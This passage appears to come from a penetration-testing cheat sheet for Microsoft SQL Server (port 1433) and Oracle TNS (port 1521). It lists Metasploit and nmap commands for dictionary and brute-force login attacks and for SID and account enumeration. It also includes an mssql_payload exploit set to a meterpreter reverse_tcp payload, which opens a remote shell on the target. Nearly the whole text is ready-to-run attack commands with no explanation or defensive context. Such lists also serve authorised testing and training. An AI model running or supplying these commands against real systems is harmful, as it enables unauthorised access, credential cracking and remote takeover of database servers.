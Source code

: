 
Bruteforce login

-   Dictionary attack
	-   `use auxiliary/scanner/mssql/mssql_login`
	-   `msf auxiliary(mssql_login) > set rhosts 192.168.1.104`
	-   `msf auxiliary(mssql_login) > set user_file /root/Desktop/user.txt`
	-   `msf auxiliary(mssql_login) > set pass_file /root/Desktop/pass.txt`
	-   `msf auxiliary(mssql_login) > run`
-   Using nmap script
	-   `nmap -n -v -sV -Pn -p 1433 –script ms-sql-brute –script-args userdb=users.txt,passdb=passwords.txt IP`
  

Metasploit MSSQL Shell
	-   `msf > use exploit/windows/mssql/mssql_payload`
	-   `msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp`
  

  

Metasploit MSSQL payload
	-   `use exploit/windows/mssql/mssql_payload`

---
# 1521-Oracle 


**Enumeration**
-   Run nmap scripts against Oracle TNS
	-   `nmap -p 1521 -A TARGET`
	-   `nmap -n -v -sV -Pn -p 1521 –script=oracle-enum-users –script-args sid=ORCL,userdb=users.txt IP`
-   Using oscanner
	-   `oscanner -s <ip address> -P 1521`
-   Fingerprint oracle tns
	-   `tnscmd10g = A tool to prod the oracle tnslsnr process`
	-   `tnscmd10g version -h 192.168.1.101`
	-   `tnscmd10g status -h 192.168.1.101`
-   Using metasploit
	-   Oracle Database Enumeration
		-   `use auxiliary/admin/oracle/oraenum`
	-   Oracle TNS Listener SID Enumeration
		-   `use auxilary/scanner/oracle/sid_enum`

  

**Brute-Force**
-   Identify default Oracle accounts
	-   `nmap --script=oracle-sid-brute ip`
	-   `nmap -n -v -sV -Pn -p 1521 --script=oracle-brute ip`
-   Bruteforce valid SID using metasploit
	-   `msf > use auxiliary/admin/oracle/sid_brute`
	-   `msf auxiliary(admin/oracle/sid_brute) > set rhost 10.10.10.82`
	-   `msf auxiliary(admin/oracle/sid_brute) > run`
-   Bruteforce credential
	-   `msf > use auxiliary/admin/oracle/oracle_login`
	-   `msf auxiliary(admin/oracle/oracle_login) > set sid XE`
	-   `msf auxiliary(admin/oracle/oracle_login) > set rhost 10.10.10.82`
	-   `msf auxiliary(admin/oracle/oracle_login) > run`

---
